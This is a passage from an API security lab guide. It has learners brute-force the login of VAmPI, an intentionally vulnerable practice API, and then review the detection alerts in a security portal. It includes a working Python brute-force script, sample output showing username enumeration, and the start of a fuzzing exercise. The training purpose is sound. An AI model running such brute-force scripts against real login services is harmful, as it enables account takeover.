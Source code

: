 1. We are going to use the following files for our username and password list. Take a look at these either from the command line or in the GUI
        - ~/API_Sec_Lab/IntruderPayloads/usernames.txt
        - ~/API_Sec_Lab/IntruderPayloads/passwords_medium.txt
2. For this lab we are going to run the python program named ~/bruteforce_login.py

                import requests
                import time

                host = 'http://<HOST_UP>'
                file1 = open('./passwordlist.txt', 'r')
                file2 = open('./loginusernames.txt', 'r')
                PasswordList = file1.read().splitlines()
                LoginUserList = file2.read().splitlines()

                count = 0
                for username in LoginUserList:
                for password in PasswordList:
                        count += 1
                        r = requests.post(host + '/users/v1/login', json={"username": username, "password": password}, verify=False)
                        time.sleep(0.1)
                        print(username + ':' + password + ' | ' + str(r.json()))

3. Run the following commands:

                pip install requests
                python bruteforce_login.py

4. The output should look like:

> root:123456 | {'status': 'fail', 'message': 'Username does not exist'}  
> root:password | {'status': 'fail', 'message': 'Username does not exist'}  
> root:12345678 | {'status': 'fail', 'message': 'Username does not exist'}  
> admin:123456 | {'status': 'fail', 'message': 'Password is not correct for the given username.'}  
> admin:password | {'status': 'fail', 'message': 'Password is not correct for the given username.'}  
> admin:12345678 | {'status': 'fail', 'message': 'Password is not correct for the given username.'}  
> test:123456 | {'status': 'fail', 'message': 'Username does not exist'}  
> test:password | {'status': 'fail', 'message': 'Username does not exist'}  
> test:12345678 | {'status': 'fail', 'message': 'Username does not exist'}  

5. Go to Akamai API Security portal at [Akamai API Security Portal](https://app.neosec.com/)
6. Log in with lab credentials from Lesson 1
7. Review the Alerts

![Example Brute Force in Portal](media/brute-force.jpg)

### Exercise 3.3 - Path Parameter Fuzzing

Attackers fuzz path parameters in order to find whether the API is leaking information. The steps below generate requests in order to fuzz both `{user_id}` and `{book_id}` parameters. Follow the steps below to run this attack against VAmPI. This doesn't really even take programming to accomplish. 

##### Fuzzing the `{user_id}` parameter
